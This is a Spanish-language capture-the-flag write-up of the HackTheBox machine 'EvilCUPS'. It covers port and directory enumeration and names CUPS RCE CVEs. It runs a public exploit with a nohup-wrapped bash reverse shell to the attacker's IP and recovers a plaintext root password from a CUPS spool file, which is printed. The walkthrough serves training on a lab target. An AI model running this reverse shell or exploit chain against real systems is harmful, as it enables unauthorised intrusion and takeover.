 ```yaml
---
layout: single
title: write up EvilCUPS
excerpt:
date: 2024-11-07
classes: wide
header:
  teaser: /assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png
  teaser_home_page: false
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


![](/assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png)
"EvilCUPS" es una máquina de HackTheBox basada en vulnerabilidades del servicio CUPS que permiten ejecución remota de comandos. Siguiendo un tutorial reciente, logramos acceso inicial al sistema y, al revisar archivos de configuración de CUPS, encontramos una contraseña reutilizada para root, lo que nos dio control total del sistema.

lo primero que vamos a hacer es ejecutar los escaneos de nmap:
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.40 -oG allports
```
![](/assets/images/EvilCUPS/Pasted image 20241107151258.png)

```bash
nmap -sCV -p22,631 10.10.11.40 -oN ports
```
![](/assets/images/EvilCUPS/Pasted image 20241107151642.png)
vemos que nos da la version de cups que es la 2.4 una version antigua del 2022.
tambien podemos ver que hay http por lo que alomejor hay una web.
vamos a usar whatweb para averiguarlo:
```bash
whatweb 10.10.11.40:631
```
![](/assets/images/EvilCUPS/Pasted image 20241107152132.png)
como podemos ver hay algo por lo que vamos a ponerlo en el navegador
![](/assets/images/EvilCUPS/Pasted image 20241107152436.png)
nada mas entrar vemos otra vez la version del servicio y multiples enlaces a los cuales podemos acceder.
antes de ponerme a tocar voy a preferir ejecutar un gobuster para ver si encuentro algo mas
```bash
 gobuster dir -u http://10.10.11.40:631/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,php.bak,bak,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.40:631/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php.bak,bak,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2262]
/help                 (Status: 200) [Size: 3137]
/jobs                 (Status: 200) [Size: 2329]
/jobs.txt             (Status: 200) [Size: 2329]
/jobs.html            (Status: 200) [Size: 2329]
/jobs.php.bak         (Status: 200) [Size: 2329]
/jobs.php             (Status: 200) [Size: 2329]
/jobs.bak             (Status: 200) [Size: 2329]
/de                   (Status: 200) [Size: 2316]
/fr                   (Status: 200) [Size: 2340]
/admin                (Status: 403) [Size: 370]
/admin.html           (Status: 403) [Size: 370]
/admin.php            (Status: 403) [Size: 370]
/admin.bak            (Status: 403) [Size: 370]
/admin.txt            (Status: 403) [Size: 370]
/admin.php.bak        (Status: 403) [Size: 370]
/es                   (Status: 200) [Size: 2478]
/ru                   (Status: 200) [Size: 2739]
/ja                   (Status: 200) [Size: 2263]
/printers.php.bak     (Status: 200) [Size: 2388]
/printers.bak         (Status: 200) [Size: 2388]
/printers             (Status: 200) [Size: 2388]
/printers.html        (Status: 200) [Size: 2388]
/printers.php         (Status: 200) [Size: 2388]
/printers.txt         (Status: 200) [Size: 2388]
/classes.php.bak      (Status: 200) [Size: 2003]
/classes              (Status: 200) [Size: 2003]
/classes.bak          (Status: 200) [Size: 2003]
/classes.php          (Status: 200) [Size: 2003]
/classes.txt          (Status: 200) [Size: 2003]
/classes.html         (Status: 200) [Size: 2003]
/robots.txt           (Status: 200) [Size: 95]
/administration       (Status: 403) [Size: 370]
/administration.txt   (Status: 403) [Size: 370]
/administration.html  (Status: 403) [Size: 370]
/administration.php   (Status: 403) [Size: 370]
/administration.php.bak (Status: 403) [Size: 370]
/administration.bak   (Status: 403) [Size: 370]
/da                   (Status: 200) [Size: 2311]
/'                    (Status: 403) [Size: 370]
/'.php                (Status: 403) [Size: 370]
/'.php.bak            (Status: 403) [Size: 370]
/'.html               (Status: 403) [Size: 370]
/'.bak                (Status: 403) [Size: 370]
/'.txt                (Status: 403) [Size: 370]
/jobsearch.php        (Status: 200) [Size: 2329]
/jobsearch            (Status: 200) [Size: 2329]
/jobsearch.html       (Status: 200) [Size: 2329]
/jobsearch.bak        (Status: 200) [Size: 2329]
/jobsearch.php.bak    (Status: 200) [Size: 2329]
/jobsearch.txt        (Status: 200) [Size: 2329]
/jobseeker            (Status: 200) [Size: 2329]
/jobseeker.bak        (Status: 200) [Size: 2329]
/jobseeker.txt        (Status: 200) [Size: 2329]
/jobseeker.php        (Status: 200) [Size: 2329]
/jobseeker.php.bak    (Status: 200) [Size: 2329]
/jobseeker.html       (Status: 200) [Size: 2329]
Progress: 32619 / 7642998 (0.43%)
```
no parece aver nada interesante por lo que vamos a tocar la pagina
si nos vamos a http://10.10.11.40:631/printers/
veremos lo siguiente:
![](/assets/images/EvilCUPS/Pasted image 20241107153439.png)
si clicamos sobre Canon_MB2300_series veremos que nos da cierta infromacion de la impresora
![](/assets/images/EvilCUPS/Pasted image 20241107153634.png)
tambien si vemos Show completed jobs saldran las tareas completadas (en vuestro caso solo os saldra una no como a mi que me puse a tocar antes de escribir xdd)
![](/assets/images/EvilCUPS/Pasted image 20241107153804.png)
como podemos ver hay dos usuarios Withheld y anonymous ( este ultimo es que usado yo y que no os aparecera)
lo interesante esque tenemos poder sobre el usuario anonymous pero por ejemplo si intentamos haceder a http://10.10.11.40:631/admin nos suelta un 403 forbiden
![](/assets/images/EvilCUPS/Pasted image 20241107154158.png)
por lo aqui entran los siguientes CVE:
[CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)
[CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)
[CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)
[CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)
basicamente lo que hay que comprobar el puerto 631 por UDP, si esta abierto podemos ejecuatr remote code execution (RCE)
por lo que podemos usar nmap para ver si es correcto:
```bash
nmap -sU -p631 10.10.11.40
```
![](/assets/images/EvilCUPS/Pasted image 20241107154858.png)
como podemos ver esta abierto por lo que genial (para nostros como atacantes claro)
vamos a darnos el lujazo de que vamos a usar el siguiente exploit para poder vulnerar el servicio 
https://github.com/IppSec/evil-cups.git
para isntalarlo es asi:
```bash
❯ git clone https://github.com/IppSec/evil-cups.git
<SNIP>

❯ cd evil-cups

❯ python3 -m venv evilcups_env

❯ source evilcups_env/bin/activate

❯ pip3 install -r requirements.txt

❯ python3 evilcups.py -h
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```
vale una vez echo abrimos otra terminal y nos ponemos en escucha por un puerto, en mi caso voy a elejir el 443 (no afecta en nado solo es por gusto)
```bash
nc -nvlp 443
```
ahora el exploit tiene un pero por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo PID del proceso que está corriendo la impresora
para comprenderlo mejor voy a citar una explicacion de otro write up que lo explica fabulosamente y os dejo el enlace tambien al writeup oficial
https://gunzf0x.github.io/pentesting/es/posts/evilcups/
cito:
"por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo `PID` del proceso que está corriendo la impresora. De manera que, si por A, B, C motivo la mala impresora (agregada) se muere o es removida, nuestra reverse shell también morirá ya que es un proceso “child” (hijo) de ésta. Puede haber un proceso corriendo por detrás el cual elimina las impresoras no deseadas. Por tanto, nuestra reverse shell podría morir. Para sobrepasar este problema podemos crear un nuevo `PID` el cual se haga cargo del proceso de la reverse shell utilizando el comando `nohup` junto con el de la reverse shell. Por tanto, si realizamos esta secuencia de ataque para `CUPS`, se recomienda hacerlo utilizando `nohup` para crear un proceso independiente.

Como último aviso, en la vida real puede que no haya un proceso removiendo constantemente las impresoras no deseadas. De ser ese el caso (el cual es más realista), y por alguna razón nuestra reverse shell muere, tendremos que cambiar nuestra dirección IP dado que al realizar la inyección ésta no aceptará un nuevo archivo `PPD`. Supongo que por eso la gente de HTB fue considerada y agregó el proceso de borrar impresoras. De otro modo necesitaríamos cambiar la IP cada vez que la reverse shell muere o, incluso, si es que simplemente ejecutamos un `ping` para saber si el exploit funcionaba."

vale una vez dicho esto vamos a ejecuat el exploit de la siguiente forma:
```bash
python3 evilcups.py 10.10.16.74 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.16.74/443 0>&1" &'
```
y esperamos unos 30 segundos
pasados esos 30 segundos si vamos a http://10.10.11.40:631/printers/ veremos la impresora maliciosa
![](/assets/images/EvilCUPS/Pasted image 20241107160105.png)
si la selecionamos y imprimimos una pagina de ejmplo 
pum estamos dentro
![](/assets/images/EvilCUPS/Pasted image 20241107160207.png)
![](/assets/images/EvilCUPS/Pasted image 20241107160221.png)
ahora para el escalado de privilegios 
## escalado de privilegios
hay un directorio cups donde en general se almacena todo. problema no tenemos haceso pero si podemos ejecutar comando:
![](/assets/images/EvilCUPS/Pasted image 20241107160946.png)
por lo que si investigamos un poco descubrimos que suelen tener una nomeglatura generica los archivos gracias a la documentacion oficial de cups
por lo que si supuestamente hacemos un:
```bash
cat /var/spool/cups/d00001-001
```
deveria ver una/unas contraseña/s
![](/assets/images/EvilCUPS/Pasted image 20241107161244.png)
y exacto hay la tenemos.
si nos la copiamos y con netexect para ver si es de root:
```bash
nxc ssh 10.10.11.40 -u 'root' -p 'Br3@k-G!@ss-r00t-evilcups'
```
![](/assets/images/EvilCUPS/Pasted image 20241107161436.png)
y vemos que si por lo que ya solo es entrar por ssh y somos root
![](/assets/images/EvilCUPS/Pasted image 20241107161548.png)
